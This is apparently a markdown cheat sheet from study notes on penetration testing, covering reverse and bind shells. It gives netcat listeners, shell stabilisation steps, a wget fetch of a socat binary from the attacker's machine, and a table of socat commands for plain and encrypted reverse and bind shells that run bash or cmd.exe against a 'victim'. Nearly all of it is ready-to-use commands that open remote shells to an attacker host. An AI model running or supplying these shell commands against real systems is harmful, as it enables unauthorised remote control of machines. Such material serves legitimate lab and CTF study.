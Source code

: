 # Reverse / Bind Shells

| Reverse Shells | Bind Shells |
| -- | -- |
| When the target is forced to execute code that connects back to your computer. | When the code executed on the target is used to start a listener attached to a shell directly on the target. |

# Tools

## Netcat

Starting a listener: `sudo nc -lvnp <PORT>`

> Tip: Choose a port less than 1024 and one that is likely to be open. Ports below 1024 require `sudo`.

One way of executing a shell is by simply connecting back via an outbound connection from the target machine: `nc <TARGET-IP> <CHOSEN-PORT>`

From there, we can stabilise our shell.

### Stabilisation

1. `python(2/3) -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm` - gives access to extra utility commands like `clear`
3. Ctrl+Z
3. `stty raw -echo; fg` - gives access to tab autocompletes, arrow keys, and Ctrl+C

When finished: `reset` to restore input visibility in your own terminal.

---

To simplify the above process, you can use `rlwrap`. 
Start a listener via: `rlwrap nc -lvnp <PORT>` and connect back.

---

For a reverse shell, use *socat*.
For a bind shell:

1. Use netcat to gain access to an unstable shell.
2. Obtain *socat static compiled binary* by runing `sudo python3 -m http.server 80` on the attacking machine, wget the binary using `wget <LOCAL-IP>/socat -O <DIR_WITH_BINARY>`.
3. Reconnect using socat.


### Socat

| Encrypted (Y/N) | Shell Type (R/B) | Command Type |
| -- | -- |
| N | R | Listener (local) - `socat TCP-L:<PORT> FILE:``tty``,raw,echo=0` |
| N | R | Connector (remote) - `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane` |
| N | B | Connector (local) - `socat TCP:<TARGET-IP>:<TARGET-PORT> -` |
| N | B | Listener (remote) - `socat TCP-L:<PORT> FILE:``tty``,raw,echo=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane` or if *Windows* victim, then `socat -d -d TCP-L:<PORT> EXEC:'cmd.exe',pipes` |
| Y | R | Listener (local) - `socat OPENSSL-LISTEN:<PORT>,cert=<certname>.pem,verify=0 file=``tty``,raw,echo=0` |
| Y | R | Connector (remote) - `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC="bash -li",pty,stderr,sigint,setsid,sane` |
| Y | B | Connector (local) - `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -` |
| Y | B | Listener (remote) - `socat OPENSSL-LISTEN:<PORT>,cert=<certname>.pem,verify=0 FILE=``tty``,raw,echo=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane` |


For encrypted shells, you must create a self-signed certificate using: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt` then combine them using: `cat shell.key shell.crt > shell.pem`.

